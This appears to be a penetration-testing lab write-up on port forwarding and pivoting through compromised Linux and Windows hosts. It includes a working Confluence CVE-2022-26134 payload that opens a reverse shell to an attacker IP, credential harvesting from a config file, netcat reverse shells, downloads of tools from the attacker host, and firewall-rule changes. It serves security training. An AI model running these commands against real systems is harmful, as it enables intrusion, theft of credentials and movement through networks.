


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Port Foward

Port forwarding is a technique where a host listens on one port and relays traffic to another destination. It’s commonly used for:

* Allowing access to internal services from external networks.
* Home routers directing specific traffic (e.g. gaming, remote access).
* Attackers bypassing segmentation by routing traffic through a compromised host (pivot point).

## Linux

In this scenario:

* **Attacker (Kali)**: On the WAN.
* **Target Web Server (**`CONFLUENCE01`**)**: Exposed to the WAN and connected to a DMZ.
* **Internal Database (**`PGDATABASE01`**)**: In DMZ, not directly reachable from Kali.

> _A **Wide Area Network (WAN)** represents a large or public network, while a **Demilitarized Zone (DMZ)** acts as a buffer zone between a less trusted network and internal systems. Since Kali can’t directly access the DMZ, we'll need to leverage `CONFLUENCE01`’s dual-network position to reach `PGDATABASE01`._

<figure><figcaption></figcaption></figure>

After exploiting a vulnerable Confluence instance (`CVE-2022-26134`) we gain a reverse shell on `CONFLUENCE01`. and enumerate its position on the network.




```bash
# payload from Kali exploiting CONFLUENCE01
$ curl http://192.168.185.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.236/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```





```bash
# reverse shell on Kali
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
...
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```





```bash
# network interfaces
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever

# routing information
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.50.254 dev ens192 proto static 
10.4.50.0/24 dev ens224 proto kernel scope link src 10.4.50.63 
10.4.50.0/24 via 10.4.50.254 dev ens224 proto static
192.168.50.0/24 dev ens192 proto kernel scope link src 192.168.50.63
```





```bash
# configuration files
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml

...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
... 
```




### Socat

Socat is a powerful command-line utility for bidirectional data transfer between two data channels. In this case, we use it to forward TCP connections from one network interface on a compromised host to a service on a different network that’s otherwise unreachable.


**Recap**

1. We obtained a reverse shell on `CONFLUENCE01` and we can execute commands as the limited `confluence` user.
2. We identified that it has:
   1. A **WAN interface** (`192.168.50.63`) that our Kali machine can reach
   2. A **DMZ interface** (`10.4.50.63`) that can reach `PGDATABASE01` at `10.4.50.215:5432`
3. `CONFLUENCE01` does not have (and we can't install) the tools needed (e.g. `psql`) to access the database server on `PGDATABASE01`.&#x20;


Since we can’t install new software on `CONFLUENCE01` and `PGDATABASE01` isn’t accessible directly from our Kali machine, we can leverage `socat` to create a **TCP port forward**.

* **Listen** on a chosen TCP port (e.g., `2345`) on `CONFLUENCE01`’s WAN-facing interface.
* **Forward** any connections received on this port to `10.4.50.215:5432` on the DMZ side.

> _On `CONFLUENCE01`, we'll start a verbose (`-ddd`) Socat process. It will listen on TCP port `2345` (`TCP-LISTEN:2345`), fork into a new subprocess when it receives a connection (`fork`) instead of dying after a single connection, then forward all traffic it receives to TCP port `5432` on `PGDATABASE01` (`TCP:10.4.50.215:5432`)._


```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```


Once this forward is active:

1. From our Kali machine on the WAN, we connect to `192.168.50.63:2345`.
2. Socat relays this traffic internally from `CONFLUENCE01` to `10.4.50.215:5432`.
3. From our perspective, it’s as though the PostgreSQL service is directly accessible at `192.168.50.63:5433`.

```bash
# from Kali
$ psql -h 192.168.50.63 -p 2345 -U postgres
```

<figure><figcaption></figcaption></figure>

After some more enumeration of the internal network, we'll find `PGDATABASE01` is also running an SSH server, so we can check for **password reuse**. We can kill the original Socat process listening on port `2345` and create a port forward on `CONFLUENCE01` that will allow us to SSH directly from our Kali machine to `PGDATABASE01`.




```bash
# from CONFLUENCE01
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```




```bash
# from Kali
$ ssh database_admin@192.168.50.63 -p2222
...
database_admin@pgdatabase01:~$
```



<figure><figcaption></figcaption></figure>

In addition to classic utilities like `socat`, modern red teams and penetration testers often turn to newer tools built for better performance, stealth, and encryption. Two widely used tools in this category are `chisel` and `ligolo-ng`. Both simplify pivoting and port forwarding tasks, often in environments where direct connections are blocked by network segmentation or firewall rules. We’ll revisit our original scenario, substituting `socat` with these tools.

### Chisel

**Chisel** is a fast, cross-platform, single-binary tool for tunneling TCP/UDP over HTTP or WebSockets. It can perform normal and reverse port forwarding and is a lightweight choice for pivoting through segmented environments.




```bash
# start the Chisel server on Kali for reverse port forwarding
$ ./chisel server -p 8000 --reverse
2025/04/18 10:18:22 server: Reverse tunnelling enabled
2025/04/18 10:18:22 server: Fingerprint xRAO8aEIJ4Yd+Zm6pujfez/GSR0wCmGm/CN59cFrQ6w=
2025/04/18 10:18:22 server: Listening on http://0.0.0.0:8000
```




Tansfer the binary to the target and connect back to our Kali on port `8000` and forward the client's `3306` port to the server's `6033` port:


```bash
# Start client on target and port forward
.\chisel.exe client 192.168.45.157:8000 R:6033:127.0.0.1:3306
```




```bash
# Connect to the MySQL server from Kali
$ mysql -h 127.0.0.1 -P 6033 -u root
...
MariaDB [(none)]>
```



#### Common Issues



**System architecture and binary mismatch**. Check if your binary matches system architecture:


```bash
$ file chisel
chisel: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=88c20c821c78ce72978e923ca64cc302b01c10a8, for GNU/Linux 3.2.0, stripped

$ uname -m
x86_64
```




**Directory with no execute permissions:** If a directory is mounted with `noexec`, binaries can’t run from there. Check mounts:

```bash
$ mount | grep noexec
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
udev on /dev type devtmpfs 
...
```



**GLIBC compatibility issues**. If you see:&#x20;


```bash
$ ./chisel client 192.168.45.235:8000 R:2345:10.4.125.215:5432

./chisel: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.32' not found (required by ./chisel)
```


…it means the binary expects a newer GLIBC than what’s installed. Use a **statically linked version** of the binary. Statically linked executables bundle their own libraries and don't rely on system GLIBC. Avoid `.deb`, `.apk`, or `.rpm` packages — those require elevated privileges and install system-wide. Instead, grab the **raw, statically linked `.gz` binary**:


```bash
# download and prepare on Kali
$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
$ gunzip chisel_1.10.1_linux_amd64.gz
$ mv chisel_1.10.1_linux_amd64 chisel
$ chmod +x chisel
$ ls -la chisel
-rwxrwxrwx 1 x7331 x7331 9371800 Apr 18 10:29 chisel
# confirm it's static
$ ldd chisel
        not a dynamic executable
```




### Ligolo-NG

Ligolo-NG is a modern, agent-based tunneling utility for secure pivoting that establishes reverse TCP/TLS connections using a TUN interface, effectively creating a lightweight userland VPN for interactive pivoting and port forwarding — without relying on SOCKS proxies.




```bash
$ sudo ligolo-proxy -selfcert
...
INFO[0000] Listening on 0.0.0.0:11601
...
ligolo-ng » interface_create --name "port_forward"
INFO[0012] Creating a new "port_forward" interface...
INFO[0012] Interface created!                         
```





```bash
$ ./agent -connect 192.168.45.235:11601 -ignore-cert -retry
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established             addr="192.168.45.235:11601"
```





```bash
$ sudo ligolo-proxy -selfcert
...
ligolo-ng » INFO[0544] Agent joined.                                 id=243b738c-4933-4d24-b8ce-13e2cc2be5bc name=confluence@confluence01 remote="192.168.125.63:38220"
ligolo-ng » session
? Specify a session : 1 - confluence@confluence01 - 192.168.125.63:58436 - b1bee230-6aed-4130-a625-e1965670d3d9
[Agent : confluence@confluence01] » tunnel_start --tun port_forward
[Agent : confluence@confluence01] » INFO[0224] Starting tunnel to confluence@confluence01 (b1bee230-6aed-4130-a625-e1965670d3d9)
```





```bash
[Agent : confluence@confluence01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens192                         │
│ Hardware MAC │ 00:50:56:9e:ea:8e              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.125.63/24              │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:9e:33:df              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.4.125.63/24                 │
└──────────────┴────────────────────────────────┘
[Agent : confluence@confluence01] » interface_add_route --name port_forward --route 10.4.125.63/24
```




```bash
# connect via forwarded port on Kali
$ psql -h 10.4.125.215 -p 5432 -U postgres
Password for user postgres: # D@t4basePassw0rd!
...

postgres=#
```



### Tool Comparison

<table><thead><tr><th width="109">Tool</th><th width="138">Setup Complexity</th><th>Stealth</th><th>Encryption</th><th>Port Forward</th><th>SOCKS Proxy</th><th>Notes</th></tr></thead><tbody><tr><td><strong>Socat</strong></td><td>Low</td><td>Medium</td><td>No</td><td>✔️</td><td>❌</td><td>Classic and reliable</td></tr><tr><td><strong>Chisel</strong></td><td>Medium</td><td>High</td><td>Optional (HTTPS)</td><td>✔️</td><td>❌</td><td>HTTP/WebSocket tunnels</td></tr><tr><td><strong>Ligolo-NG</strong></td><td>Medium-High</td><td>High</td><td>✔️</td><td>✔️</td><td>✔️</td><td>Agent-based pivoting</td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr></tbody></table>

## Windows

### SSH

On Windows versions with SSH installed, the `ssh-*` utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`. Our scenario:

* We have RDP access to `MULTISERVER03` (`198.168.177.64`).
* We need to pivot into the internal network to reach services like PostgreSQL on `PGDATABASE01` (`10.4.177.215`).
* Direct outbound connections from Kali to internal targets are blocked.
* Only RDP is allowed into `MULTISERVER03`.

<figure><figcaption></figcaption></figure>



Start zn SSH server on Kali and RDP into `MULTISERVER03`.

```bash
# ssh server on Kali
$ sudo service ssh start
Starting OpenBSD Secure Shell server: sshd.

# RDP to MULT03
$ xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:192.168.177.64
```



Create the remote port forward on `MULTISERVER03`.

```powershell
C:\Windows\system32>whoami
multiserver03\rdp_admin
# check if SSH is installed
C:\Windows\system32>where ssh
C:\Windows\System32\OpenSSH\ssh.exe
# check if SSH version is > 7.6
C:\Windows\system32>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
# create the remote port forward
C:\Windows\system32>ssh -N -R 9998 x7331@192.168.45.235
```




```bash
# confirm on Kali
$ sudo netstat -ntlp | grep 9998
tcp        0      0 127.0.0.1:9998  0.0.0.0:*       LISTEN      98/sshd-session: x7
tcp6       0      0 ::1:9998        :::*            LISTEN      98/sshd-session: x7

# config proxychains
$ tail -n1 /etc/proxychains.conf
socks5  127.0.0.1 9998

# connect to PGDATABASE01
$ sudo proxychains psql -h 10.4.177.215 -U postgres
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.177.215:5432  ...  OK
Password for user postgres: # D@t4basePassw0rd!
...

postgres=#
```




### Plink

OpenSSH might be intentionally removed from Windows machines, but other remote tools might be available. Plink is PuTTY's CLI version. On this scenario:

* `MULTISERVER03` (`192.168.177.64`) has TCP port `80` exposed.
* All other inbound ports are blocked (no RDP).
* `MULTISERVER03` is compromised and we got a webshell at `/umbraco/forms.aspx`.

<figure><figcaption></figcaption></figure>

We will first need to make sure that our SSH server is configured appropriately, i.e., the `GatewayPorts` and `AllowTcpForwarding` settings are set to `yes`. If there aren't and we change them, we will need to restart `ssh` for the changes to take place.

```bash
# Check SSH configuration
$ cat /etc/ssh/sshd_config | grep GatewayPorts
GatewayPorts yes
$ cat /etc/ssh/sshd_config | grep AllowTcpForwarding
AllowTcpForwarding yes
# Restart SSH service
$ sudo service ssh restart
```



Send a reverse shell to Kali through the web shell on `MULTISERVER03:80`.

```powershell
# transfer binary
powershell wget -uri http://192.168.45.235/nc.exe -O c:\windows\temp\nc.exe

# send reverse shell
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.235 4444
```



Cath the reverse shell, transfer the `plink` binary, and create the remote port forward.


```bash
# Catch the reverse shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.235] from (UNKNOWN) [192.168.177.64] 49432
...
# Transfer binary
c:\Windows\Temp>powershell wget -uri http://192.168.45.235/plink.exe -O plink.exe
# Create remote port forward
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l x7331 -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.235
```




Confirm that the setup is up and running and use it to RDP directly to `MULTISERVER03`.

```bash
# Confirm remote port forward
$ sudo netstat -ntlp | grep 9833
tcp    0  0 127.0.0.1:9833  0.0.0.0:*   LISTEN  944/sshd-session: x
# Use RDP from Kali
$ xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:127.0.0.1:9833
```



<figure><figcaption></figcaption></figure>

When we want to use `plink` within a non-interactive session, e.g. WinRM,  which prevents us from answering the `ssh` prompts, including trusting our ssh hostkey, we need pass the command's arguments are a list:


```powershell
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> Start-Process .\plink.exe -ArgumentList '-R 33060:127.0.0.1:3306', 'x7331@192.168.45.157', '-pw', 'kali', '-batch', '-hostkey', '"ssh-ed25519 255 SHA256:12ofigkgaUScFuNMCS/+bKdRsfu0rvILCdF+P8OzsH4"' -NoNewWindow
```


We can also automate SSH client key acceptance in non-TTY shells on Windows using Plink with `cmd.exe /c echo y | plink.exe`, bypassing manual prompts.


```powershell
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.235
```


### Netsh

**Network Shell** (`netsh`) is a native Windows tool use to configure network settings, including port forwarding via `portproxy` within the `interface` context.

> _The `netsh interface portproxy` command requires admin rights, so UAC may block changes in some cases. In this example, we’re using an admin RDP session, so UAC isn’t an issue._

In our scenario:

* `MULTISERVER03` (`192.168.246.64`) has TCP ports `80` and `3389` open.
* `CONFLUENCE01` (`192.168.246.63`) isn't accessible on the WAN interface.
* `MULTISERVER03` allows all outbound traffic.

Our aim is to SSH directly from Kali to `PGDATABASE01` (`10.4.246.125`) by creating a port forward on `MULTISERVER03`.

<figure><figcaption></figcaption></figure>



RDP directly into `MULTISERVER03` from Kali.

```bash
$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.246.64
```



Open an admin `cmd.exe`, run `netsh` to add a `portproxy` rule (v4tov4) that listens on port `2222` at `MULTISERVER03` and forwards to port `22` on `PGDATABASE01`.


```powershell
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.246.64 connectport=22 connectaddress=10.4.246.215

C:\Windows\system32>netstat -anp TCP | find "2222"
  TCP    192.168.246.64:2222    0.0.0.0:0              LISTENING
  
C:\Windows\system32>netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.246.64  2222        10.4.246.215    22
```




<figure><figcaption></figcaption></figure>



The `nmap` results shows port `2222` as `filtered`, which probably means that Windows Firewall blocks inbound connections to this port.

```bash
$ sudo nmap -T4 -Pn -p2222 192.168.246.64
...

PORT     STATE    SERVICE
2222/tcp filtered EtherNetIP-1
```



We need to create a "hole" by creating a rule that allows connections on the local port (`2222`) for incoming traffic (`dir=in`).


```powershell
C:\Windows\system32>netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.246.64 localport=2222 action=allow
Ok.
```




Now the `2222` port shows as `open`, and we can SSH directly into it.

```bash
$ sudo nmap -T4 -Pn -p2222 192.168.246.64
...

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1

$ ssh database_admin@192.168.246.64 -p 2222
...
database_admin@192.168.246.64's password: # sqlpass123
...
database_admin@pgdatabase01:~$
```



After we are done with the connection, we need to delete the rule and the port forward.


```powershell
C:\Windows\system32>netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

Deleted 1 rule(s).
Ok.

C:\Windows\system32>netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.246.64
```




> _**Note**: There is no PowerShell equivalent for `netsh interface portproxy`. However, Firewall management has PowerShell cmdlets (`New-NetFirewallRule`, etc.)._
